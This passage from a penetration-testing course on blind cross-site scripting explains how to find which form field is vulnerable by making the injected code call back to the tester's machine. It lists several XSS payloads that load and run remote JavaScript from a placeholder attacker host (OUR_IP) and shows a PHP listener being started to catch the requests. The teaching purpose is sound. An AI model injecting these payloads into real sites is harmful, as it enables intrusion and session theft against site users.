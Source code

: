 However, this introduces two issues:

1. `How can we know which specific field is vulnerable?` Since any of the fields may execute our code, we can't know which of them did.
2. `How can we know what XSS payload to use?` Since the page may be vulnerable, but the payload may not work?

---

## Loading a Remote Script

In HTML, we can write JavaScript code within the `<script>` tags, but we can also include a remote script by providing its URL, as follows:


```html
<script src="http://OUR_IP/script.js"></script>
```

So, we can use this to execute a remote JavaScript file that is served on our VM. We can change the requested script name from `script.js` to the name of the field we are injecting in, such that when we get the request in our VM, we can identify the vulnerable input field that executed the script, as follows:


```html
<script src="http://OUR_IP/username"></script>
```

If we get a request for `/username`, then we know that the `username` field is vulnerable to XSS, and so on. With that, we can start testing various XSS payloads that load a remote script and see which of them sends us a request. The following are a few examples we can use from [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#blind-xss):


```html
<script src=http://OUR_IP></script>
'><script src=http://OUR_IP></script>
"><script src=http://OUR_IP></script>
javascript:eval('var a=document.createElement(\'script\');a.src=\'http://OUR_IP\';document.body.appendChild(a)')
<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//OUR_IP");a.send();</script>
<script>$.getScript("http://OUR_IP")</script>
```

As we can see, various payloads start with an injection like `'>`, which may or may not work depending on how our input is handled in the backend. As previously mentioned in the `XSS Discovery` section, if we had access to the source code (i.e., in a DOM XSS), it would be possible to precisely write the required payload for a successful injection. This is why Blind XSS has a higher success rate with DOM XSS type of vulnerabilities.

Before we start sending payloads, we need to start a listener on our VM, using `netcat` or `php` as shown in a previous section:


```shell-session
smoothment@htb[/htb]$ mkdir /tmp/tmpserver
smoothment@htb[/htb]$ cd /tmp/tmpserver
smoothment@htb[/htb]$ sudo php -S 0.0.0.0:80
PHP 7.4.15 Development Server (http://0.0.0.0:80) started
```
